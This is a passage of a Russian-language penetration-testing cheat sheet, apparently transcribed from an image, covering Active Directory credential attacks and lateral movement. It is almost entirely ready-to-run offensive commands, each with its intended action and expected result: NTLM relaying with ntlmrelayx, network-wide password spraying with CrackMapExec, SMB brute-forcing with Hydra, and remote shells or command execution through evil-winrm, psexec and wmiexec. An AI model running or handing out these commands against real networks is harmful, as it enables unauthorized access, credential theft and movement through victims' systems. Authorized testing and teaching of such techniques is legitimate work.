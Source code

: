 ### smbrelay / ntlmrelayx (impacket)

```bash
python3 ntlmrelayx.py -smb2support -t smb://<target_ip> -whitelist <allowed_ip> -of /tmp/relay_output.txt
```

*Действие:* релей захваченных NTLM-аутентификаций к цели.
*Ожидается:* успешный доступ/лог попыток релея.

### CrackMapExec — проверка creds массово

```bash
crackmapexec smb 10.0.0.0/24 -u users.txt -p passwords.txt --continue-on-success
```

*Действие:* массовая проверка логин:пароль по сети.
*Ожидается:* вывод успешных сочетаний и целевых хостов.

### Hydra — SMB brute-force

```bash
hydra -L users.txt -P passwords.txt smb://<IP> -t 8 -w 5
```

*Действие:* многопоточный подбор пар для SMB.
*Ожидается:* найденные пары и статистика.

---

## Фаза 4 — Эксплуатация / Lateral movement

### Evil-WinRM — WinRM shell

```bash
evil-winrm -i <IP> -u 'DOMAIN\\user' -p 'Passw0rd'
```

*Действие:* интерактивный remote shell через WinRM.
*Ожидается:* shell; возможность чтения/записи файлов и выполнения команд.

### Impacket psexec — запуск команды

```bash
python3 psexec.py 'DOMAIN/user:Pass@<IP>' cmd.exe /c whoami
```

*Действие:* выполнение команды через SMB сервис.
*Ожидается:* вывод whoami (пользователь, под кем выполнено).

### Impacket wmiexec — выполнение через WMI

```bash
python3 wmiexec.py 'DOMAIN/user:Pass@<IP>' 'ipconfig /all'
```

*Действие:* удалённый запуск команд через WMI.
*Ожидается:* вывод команды (ipconfig и т.д.).
